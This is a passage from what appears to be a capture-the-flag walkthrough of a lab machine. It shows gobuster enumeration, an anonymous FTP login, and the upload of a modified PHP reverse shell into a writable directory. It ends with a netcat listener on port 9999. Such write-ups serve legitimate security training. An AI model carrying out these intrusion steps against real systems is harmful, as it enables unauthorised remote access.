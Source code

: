 ```
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/files                (Status: 301) [Size: 312] [--> http://10.10.96.227/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- Let's try out the `/files` directory.
- We can login go to the FTP server of the machine.
```
$ ftp anonymous@10.10.96.227
Connected to 10.10.96.227.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Note that the password for anonymous login is `anonymous`.
- Let's look around a bit.
```
ftp> ls
229 Entering Extended Passive Mode (|||62019|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
```
- We can upload a reverse shell in this directory.
- We will be using the `/usr/share/webshells/php/php-reverse-shell.php` script after making some modifications.
![[4 47.png]]
- We replaced the IP address with our `tun0` address and set the port to a port of our choice.
- Let's upload the file to the FTP server using `put`.
```
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||50625|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        2.27 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.80 KiB/s)
```
- Now we have to listen on the `9999` port using `netcat`.
```
$ nc -nlvp 9999            
```